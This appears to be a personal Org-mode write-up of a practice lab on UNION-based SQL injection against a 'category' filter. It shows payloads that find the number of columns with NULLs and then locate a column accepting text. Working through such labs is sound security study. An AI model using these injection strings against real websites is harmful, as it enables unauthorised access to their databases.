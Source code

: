 #+title: SQL injection UNION attack, finding a column containing text

* About
Sql injection on ~category~ filter

** End Goal
Identify a column that is compatible with ~string~ data

* Steps
** Step 1
+ Determine first how many column are there

#+begin_src sql
'UNION SELECT NULL --
#+end_src

+ If gives error
#+begin_src sql
'UNION SELECT NULL, NULL --
#+end_src
and so on

#+begin_src sql
'UNION SELECT NULL, NULL, NULL --
#+end_src
gives 200 response

** Step 2
Now find out which column support string value
#+begin_src sql
'UNION SELECT 'abc', NULL, NULL --
#+end_src
: gives error
#+begin_src sql
'UNION SELECT NULL, 'abc', NULL --
#+end_src
: success

Now find out similar like this line Make the database retrieve the string: 'FJFnqK'

Now replace that string value with abc
#+begin_src sql
'UNION SELECT NULL, 'FJFnqK', NULL --
#+end_src
